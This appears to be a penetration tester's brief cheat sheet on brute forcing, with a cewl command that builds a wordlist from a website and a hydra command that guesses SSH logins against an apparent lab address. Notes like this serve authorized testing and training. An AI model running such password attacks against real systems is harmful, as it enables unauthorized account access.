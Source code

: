# Brute forcing

## Password dictionary generation

```
cewl -d 5 -m 3 -w wordlist <url> --with-numbers 
```

## Hydra

See [list](https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/).

```
hydra -v -L users.txt -P passwords.txt -t 4 ssh://10.10.10.187
```
(`-t 4` is important)

